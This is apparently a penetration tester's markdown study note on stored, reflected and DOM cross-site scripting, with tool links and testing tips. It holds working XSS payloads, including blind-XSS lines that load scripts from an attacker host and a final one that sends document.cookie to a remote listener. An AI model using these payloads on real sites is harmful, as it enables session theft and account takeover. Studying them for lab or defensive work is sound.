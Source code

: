 ## overview
- the attacker submits data that is stored on the server
	- the attacker knows the submitted data will be rendered on the client side for other users (ie. comments)
- the submitted data is a frontend coding injection that will execute js on the victim client

### XSS enumerators
- [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)
- [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), or [ZAP](https://owasp.org/www-project-zap/)

### Note
- XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
- Manually testing XSS is not optimal
	- make a python script with multiple XSS payloads and have a built in function that detects  success/failure cases
	-  do manual code review
		- <font style="color:#CF0000">review the html output and see how your input is handeled</font>
		- most applications test their security against public XSS scripts so those will get patched
- if client side testing shows nothing, try testing inputs that go through server side
### testing for XSS
- upload to a field
```
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
```
- blind XSS (may need script \[direct js to execute\], and php files)
```
'><script src=http://10.10.14.44:89/script.js></script>
<script>$.getScript("http://10.10.14.44:89")</script><script
```
-  test if XSS is stored
- for reflected XSS
	- because the server does not store the payload, you need to send a link that has the payload attached. 
	- processed by backend first
	- try editing the url parameters
	- (potential to attack webserver directly)
- for DOM XSS
	- no involvement with backend, (payloads used against another user)
	- JS on frontend will update the page but only after base page source is retrieved by browser
		- refreshing will clear the payload
	- detecting DOM vulnerability
		- js payload is not displayed in the html and does not execute
		- parts
			- source: js object that stores user input
			- sink: js function that writes user input to a DOM object
		- exploiting DOM XSS
			- make sure JS object stores the full payload part of your input
				- look in their js file
			- make sure the JS function allows the html tags you use
				- ex. innerhtml does not allow script tags
				- a good DOM XSS payload:
			```
			<img src="" onerror=alert(window.origin)>
			```
### XSS attacks
- editing frontend code methods
	- you can remove existing DOM elements with `document.getElementById().remove()` element in js
	- you can comment out the entirety of the html code after your inject with an open html comment `<!--` 
	- js can be injected into html pages with the `<script>` tag
- functionality
	-  if your attack involves receiving data from the victim don't forget to start a listener on your attacker device
	- if you want the website to be functional after submitting data, you need to upload a php file to properly handle website functionality


## XSS js verbs
```
fetch
alert
getScript
```

`<img src=x onerror=fetch("http://10.10.16.55:4444/"+document.cookie);>`